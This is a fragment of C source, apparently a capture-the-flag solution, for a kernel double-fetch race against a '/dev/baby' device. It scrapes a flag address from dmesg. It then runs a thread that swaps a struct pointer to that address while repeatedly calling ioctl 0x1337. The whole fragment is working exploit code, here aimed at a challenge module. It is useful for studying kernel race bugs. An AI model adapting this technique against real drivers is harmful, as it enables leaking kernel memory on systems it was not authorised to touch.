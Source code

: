 ```c
    struct attr * s1 = s; 
    while(finish==0){
    s1->flag = addr;
    }
}

int main(void)
{
    int addr_fd;
    char *idx;
    int fd = open("/dev/baby",0);
    int ret = ioctl(fd,0x6666);    
    pthread_t t1;
    struct attr t;
    setvbuf(stdin,0,2,0);
    setvbuf(stdout,0,2,0);
    setvbuf(stderr,0,2,0);   
	//获取内核硬编码的flag地址
    system("dmesg > /tmp/record.txt");
    addr_fd = open("/tmp/record.txt",O_RDONLY);
    lseek(addr_fd,-LEN,SEEK_END);
    read(addr_fd,buf,LEN);
    close(addr_fd);
    idx = strstr(buf,"Your flag is at ");
    if (idx == 0){
        printf("[-]Not found addr");
        exit(-1);
    }
    else{
        idx+=16;
        addr = strtoull(idx,idx+16,16);
        printf("[+]flag addr: %p\n",addr);
    }
	//构造attr数据结构
    t.len = 33;
    t.flag = buf;
    //新建恶意线程
    pthread_create(&t1, NULL, change_attr_value,&t);
    for(int i=0;i<TRYTIME;i++){
        ret = ioctl(fd, 0x1337, &t);
        t.flag = buf;
    }
    finish = 1;
    pthread_join(t1, NULL);
    close(fd);
    puts("[+]result is :");
    system("dmesg | grep flag");
    return 0;
}
```
